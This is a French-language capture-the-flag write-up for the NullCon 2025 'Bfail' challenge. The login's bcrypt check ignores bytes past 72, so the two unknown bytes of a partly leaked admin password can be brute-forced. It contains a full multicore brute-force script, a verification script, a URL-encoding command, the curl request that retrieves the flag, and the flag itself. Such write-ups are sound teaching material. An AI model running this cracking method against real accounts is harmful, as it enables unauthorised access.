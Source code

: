 ```yaml
---
title: "NullCon 2025 : Bfail | Web-Crypto"
date: 2025-03-25
draft: false
categories: ["Web"]
ctf: "NullCon 2025"
challenge: "bfail"
author: "Reyko"
---
```


# Bfail : 

URL: http://52.59.124.14:5013/
Flag : `ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`

## 1. Contexte

On a une page de login un peu bidon. Dans le code source (accessible via /source ), on
trouve :
- Le formulaire de login qui est en **POST**, mais la route n'accepte que les **GET**.
- La vérif se fait avec `bcrypt.checkpw(password, app.ADMIN_PW_HASH)` .
- Le mot de passe de l’admin est généré avec **128 octets** de données aléatoires, mais **bcrypt ne prend en compte que les 72 premiers octets**.
- Le code source balance les premiers octets (environ 70/71 octets), donc il ne reste qu’à deviner les 2 derniers octets (65 536 possibilités).

## 2. Brute-force Off-Line
### 2.1. Brute-force Multicoeurs (bfail_brute_multi.py)
**Disclaimer :**
Le script est optimisé pour une machine avec **24 coeurs**. Si tu n'as pas un ordi de compète,
adapte-le ! (ou achète un ordi de compète :kek:)

Script complet :
```python
import bcrypt
import multiprocessing

partial = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5\x24\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
pw_hash = b"$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK"

TOTAL = 65536

def worker(worker_id, start, end, verbose_step=1000):
    for i, val in enumerate(range(start, end)):
        b1 = val >> 8
        b2 = val & 0xff
        candidate = partial + bytes([b1, b2])
        candidate = candidate[:72]
        
        if bcrypt.checkpw(candidate, pw_hash):
            return (b1, b2)
        
        if i % verbose_step == 0:
            print(f"[Worker {worker_id}] {i+start} / {end} essais...")
    
    return None

def main():
    workers = 24  # Oh oui les 24 coeurs
    pool = multiprocessing.Pool(workers)
    
    step = TOTAL // workers
    remainder = TOTAL % workers
    tasks = []
    current_start = 0
    
    for w_id in range(workers):
        chunk_size = step + (1 if w_id < remainder else 0)
        current_end = current_start + chunk_size
        tasks.append(pool.apply_async(worker, args=(w_id, current_start, current_end)))
        current_start = current_end
    
    pool.close()
    pool.join()
    
    for t in tasks:
        result = t.get()
        if result:
            b1, b2 = result
            print("[+] FOUND CORRECT PASSWORD!")
            print("Last two bytes: 0x{:02x} 0x{:02x}".format(b1, b2))
            candidate = partial + bytes([b1, b2])
            candidate = candidate[:72]
            print("Full 72-byte password:", candidate)
            return

if __name__ == "__main__":
    main()
```
Output du script de compétition :
```text
[+] FOUND CORRECT PASSWORD!
Last two bytes: 0xaa 0x00
Full 72-byte password:
b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xc
a#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7
$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf
76\xaa\x00'
```
### 2.2. Vérification du Candidat (testbcrypt.py)
On vérifie que les 72 premiers octets du candidat fonctionnent bien avec bcrypt :

```python
import bcrypt
pw_hash = b"$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK"
candidate_73 =
b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5
$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\
xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa\x00'
candidate_72 = candidate_73[:72]
print('candidate_73 length:', len(candidate_73))
print('candidate_72 length:', len(candidate_72))
print('bcrypt.checkpw(candidate_72, pw_hash) ->',
bcrypt.checkpw(candidate_72, pw_hash))
```
Output : 
```text
candidate_73 length: 73 candidate_72 length: 72 bcrypt.checkpw(candidate_72,pw_hash) -> True
```
### 2.3. Génération de la Chaîne URLEncodée
Pour envoyer le mot de passe au serveur, il faut l'URLencoder exact.
**Important** : Dans la chaîne binaire, le symbole dollar ( `$` ) doit être échappé dans le shell en
écrivant `\$` .

Commande :

```
python3 -c "import urllib.parse; candidate_72 =
b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5
\$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I
\xd8gI\x15\xe9\xe7\$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa\x00'[:72];
print(urllib.parse.quote_from_bytes(candidate_72))"
```

Output :
```text
%EC%9F%E0a%978%FC%B6%3AT%E2%A0%C9%3C%9E%1A%A5%FAo%B2%15%86%E5%24%86Z%1A%D4%C
A%23%15%D2x%A0%0E0%CA%BC%89T%C5V6%F1%A4%
A8S%8A%25I%D8gI%15%E9%E7%24M%15%DC%40%A9%A1%40%9C%EEe%E0%E0%F76%AA
```

## 3. Envoi de la Requête GET pour Obtenir le Flag

```
curl -v -X GET \
-H "Content-Type: application/x-www-form-urlencoded" \
--data-binary
"username=admin&password=%EC%9F%E0a%978%FC%B6%3AT%E2%A0%C9%3C%9E%1A%A5%FAo%B2%15%86%E5%24%86Z%1A%D4%CA%23%15%D2x%A0%0E0%CA%BC%89T%C5V6%F1%A4%A8S%8A%25I%D8gI%15%E9%E7%24M%15%DC%40%A9%A1%40%9C%EEe%E0%E0%F76%AA" \
http://52.59.124.14:5013/
```

Réponse du serveur :
```bash
* Trying 52.59.124.14:5013...
* Connected to 52.59.124.14 (52.59.124.14) port 5013 (#0)
> GET / HTTP/1.1
> Host: 52.59.124.14:5013
> User-Agent: curl/7.88.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 206
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.1.3 Python/3.13.1
< Date: Sat, 01 Feb 2025 18:30:29 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 125
< Connection: close
<
* Closing connection 0
Congrats! It appears you have successfully bf'ed the password. Here is your
ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}
```

## 4. Conclusion
### Pour résumer:
### 1 - Analyse du Code Source :
On a vu que le mot de passe de l'admin est généré sur 128 octets, mais bcrypt ne considère
que les 72 premiers. Le code source balance déjà la majeure partie du mot de passe, donc il ne
restait qu'à brute-forcer les 2 derniers octets (65 536 possibilités).
### 2 - Brute-force :
Le Script `bfail_brute_multi.py` de la mort qui tue a trouvé que les 2 derniers octets étaient
`0xaa` et `0x00`.
### 3 - Vérification et Préparation :
Avec `testbcrypt.py`, on confirme que les 72 premiers octets (candidat correct) passent la
vérif de bcrypt. Ensuite, il reste plus qu'a généré la chaîne URLencodée en prenant soin
d'échapper les dollars.
### 4 - Envoi via curl :
On envoie pour finir la requête GET avec `--data-binary` pour que la donnée ne soit pas
modifiée, et le serveur renvoie le flag.

Made with <3 with my best bro openai
